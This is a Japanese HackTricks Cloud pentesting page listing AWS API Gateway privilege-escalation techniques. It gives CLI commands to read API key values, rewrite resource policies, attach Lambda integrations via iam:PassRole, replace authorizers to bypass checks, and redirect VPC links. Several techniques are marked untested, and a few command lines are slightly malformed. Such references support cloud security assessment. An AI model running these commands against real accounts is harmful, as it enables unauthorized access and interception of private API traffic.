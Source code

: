 # AWS - Apigateway特権昇格

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* **HackTricksで会社を宣伝したい**場合や、**PEASSの最新バージョンをダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* **ハッキングのトリックを共有するには、** [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>

## Apigateway

詳細については、次を参照してください：

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

この権限を持つと、設定されたAPIのAPIキーを生成できます（リージョンごと）。
```bash
aws --region <region> apigateway create-api-key
```
**潜在的な影響:** このテクニックでは特権昇格はできませんが、機密情報にアクセスする可能性があります。

### `apigateway:GET`

この権限を持つことで、設定されたAPIの生成されたAPIキーを取得することができます（リージョンごと）。
```bash
aws --region apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**潜在的な影響:** このテクニックでは特権の昇格はできませんが、機密情報にアクセスする可能性があります。

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

これらの権限を持っている場合、APIのリソースポリシーを変更して自分自身にアクセス権を与え、APIゲートウェイが持つ潜在的なアクセスを悪用することができます（脆弱なLambdaを呼び出すなど）。

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**潜在的な影響:** 通常、このテクニックでは直接特権昇格はできませんが、機密情報にアクセスできる可能性があります。

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
テストが必要です
{% endhint %}

`apigateway:PutIntegration`、`apigateway:CreateDeployment`、および`iam:PassRole`の権限を持つ攻撃者は、**IAMロールがアタッチされたLambda関数を使用して既存のAPI Gateway REST APIに新しい統合を追加**することができます。攻撃者はその後、Lambda関数をトリガーして任意のコードを実行し、IAMロールに関連付けられたリソースにアクセスする可能性があります。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在的な影響**: Lambda関数のIAMロールに関連するリソースへのアクセス。

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
テストが必要です
{% endhint %}

`apigateway:UpdateAuthorizer`と`apigateway:CreateDeployment`の権限を持つ攻撃者は、**既存のAPI Gateway認証子**を変更してセキュリティチェックをバイパスしたり、APIリクエストが行われた際に任意のコードを実行したりすることができます。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在的な影響**: セキュリティチェックのバイパス、APIリソースへの不正アクセス。

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
テストが必要です
{% endhint %}

`apigateway:UpdateVpcLink`の権限を持つ攻撃者は、**既存のVPCリンクを変更して別のネットワークロードバランサーを指すようにすることができ、プライベートAPIトラフィックを不正なリソースにリダイレクトする可能性があります**。
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**潜在的な影響**: 私的なAPIリソースへの不正アクセス、APIトラフィックの傍受または妨害。

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* **HackTricksで会社を宣伝したい**場合や、**最新バージョンのPEASSを入手したい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をご覧ください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter**で私をフォローする 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **ハッキングのトリックを共有するには、** [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>
